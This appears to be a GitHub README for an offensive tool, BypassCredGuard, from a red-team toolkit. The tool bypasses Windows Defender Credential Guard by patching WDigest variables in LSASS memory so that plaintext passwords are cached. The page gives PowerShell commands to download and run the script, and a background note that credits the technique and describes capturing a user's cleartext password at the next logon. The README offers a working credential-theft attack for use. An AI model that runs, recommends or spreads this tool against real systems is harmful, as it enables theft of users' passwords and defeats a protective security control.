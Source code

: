 ## BypassCredGuard.exe

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[BypassCredGuard](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/BypassCredGuard.exe)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/DeviceGuard.ps1" -OutFile "DeviceGuard.ps1"
```

<br />

**run cmdlet:**
```powershell
.\DeviceGuard.ps1
```

<br />

**Final Notes:**
```powershell
BypassCredGuard - Credential Guard Bypass Via Patching Wdigest Memory

## Background
Adam Chester wrote an article called "Exploring Mimikatz - Part 1 - WDigest" about memory patching to enable UseLogonCredential
and make Wdigest cache cleartext credentials intrigued me. The wdigest.dll module loaded by the LSASS process has two interesting
global variables: `g_fParameter_useLogonCredential` and `g_IsCredGuardEnabled`, their role is self-evident from the name alone,
the former is used to determine whether the clear text password should be stored in memory , the latter holds the state of the
Windows Defender Credential Guard within the module, and Wdigest plaintext password caching can be enabled on systems with
Credential Guard by patching the values of these two global variables in memory.

## Let’s see it in action
Run the POC we wrote on the system with Credential Guard protection enabled.
When the user enters the username and password to log in again, we get his plaintext password again
```

<br />

![poc](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/DeviceGuard.png)
